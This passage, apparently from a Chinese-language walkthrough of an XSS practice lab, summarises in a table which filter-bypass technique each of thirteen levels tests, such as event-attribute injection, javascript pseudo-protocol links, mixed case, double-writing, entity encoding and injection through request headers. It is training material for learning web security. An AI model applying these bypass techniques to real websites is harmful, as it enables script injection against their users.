  

  ---
### 2.4 总结

| Level      | 考察点                                       |
| ---------- | -------------------------------------------- |
| 1, 2       | 无过滤反射型                                 |
| 3, 4       | `<>`被编码 事件属性绕过                      |
| 5          | `<a>`伪协议                                  |
| 6          | 大小写混合                                   |
| 7          | 双写绕过                                     |
| 8, 9       | 伪协议+实体化编码                            |
| 10         | 隐藏属性+事件属性                            |
| 11, 12, 13 | HTTP协议+Request请求头报文+隐藏属性+事件属性 |

> Level 1-9 聚焦标签与属性注入绕过, Level 10-13 则将攻击面扩展到HTTP请求头与隐藏参数, 体现了真实攻防中的信息收集能力
